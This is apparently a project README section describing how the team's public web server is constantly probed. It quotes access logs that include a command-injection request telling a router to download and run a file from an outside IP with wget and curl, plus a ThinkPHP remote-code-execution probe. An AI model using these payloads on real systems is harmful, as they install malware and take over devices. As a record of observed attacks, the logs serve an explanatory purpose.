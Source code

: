 # Challenges
## We've Been Hacked!
It may come as a surprise to hear but because this website is publically accessible and several ports are open, we were attacked on multiple occasions and sustain attacks on and off as a result. For context, even though the website has official routes and well defined entry points, that doesn't prevent agressors from attempting to access different endpoints or from passing malformed data. For example, many malformed requests assume that there are webpages available in common places like `/wp/admin.php` which is the admin access point for WordPress. if an agressor found such a page available on our VM, it would make sense then to commence a password attack on that website since it's valid. The following logs represent a fraction of the kinds of requests we get on a daily basis. Note how the legimitate requests are actually few and far between the illegitimate requests.
```log
....................
149.202.251.78 - - [04/Dec/2019:11:15:40 +0000] "GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60ucd /tmp; wgethttp://80.82.67.184/richard; curl -O http://80.82.67.184/richard; chmod +x richard; ./richard%60&pingCNT=5 HTTP/1.1" 200 406 "http://www.target.com/Main_Analysis_Content.asp" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36"
223.71.167.155 - - [04/Dec/2019:11:20:19 +0000] "GET / HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:47.0) Gecko/20100101 Firefox/47.0"
185.234.217.183 - - [04/Dec/2019:14:36:55 +0000] "GET / HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106Safari/537.36"
185.153.196.97 - - [04/Dec/2019:16:26:57 +0000] "GET /index.php?s=/Index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP HTTP/1.1"200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"
185.153.196.97 - - [04/Dec/2019:17:13:57 +0000] "GET /index.php?s=/Index/\x5Cthink\x5Capp/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP HTTP/1.1"200 406 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"
34.89.243.87 - - [04/Dec/2019:17:30:57 +0000] "OPTIONS / HTTP/1.0" 405 182 "-" "-"
213.91.164.126 - - [04/Dec/2019:18:21:45 +0000] "GET / HTTP/1.1" 200 808 "-" "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:24:31 +0000] "GET /assets/raw.jpg HTTP/1.1" 304 0 "http://swarm-fau.eastus.cloudapp.azure.com/data" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:24:31 +0000] "GET /assets/intelligent.jpg HTTP/1.1" 200 216628 "http://swarm-fau.eastus.cloudapp.azure.com/data" "Mozilla/5.0 (Macintosh; IntelMac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:28 +0000] "GET /device HTTP/1.1" 200 406 "http://swarm-fau.eastus.cloudapp.azure.com/project" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:28 +0000] "GET /polyfills-es2015.0ef207fb7b4761464817.js HTTP/1.1" 200 37293 "http://swarm-fau.eastus.cloudapp.azure.com/device" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:28 +0000] "GET /styles.1ac3affe9504b81b5cc4.css HTTP/1.1" 200 214050 "http://swarm-fau.eastus.cloudapp.azure.com/device" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:28 +0000] "GET /runtime-es2015.e8a2810b3b08d6a1b6aa.js HTTP/1.1" 304 0 "http://swarm-fau.eastus.cloudapp.azure.com/device" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:29 +0000] "GET /main-es2015.04808a82e8c15ad0093a.js HTTP/1.1" 200 1848369 "http://swarm-fau.eastus.cloudapp.azure.com/device" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
99.58.98.242 - - [04/Dec/2019:18:26:30 +0000] "GET /favicon.ico HTTP/1.1" 200 948 "http://swarm-fau.eastus.cloudapp.azure.com/device" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36"
131.91.4.38 - - [04/Dec/2019:18:43:40 +0000] "GET / HTTP/1.1" 200 406 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_1) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.3 Safari/605.1.15"
```
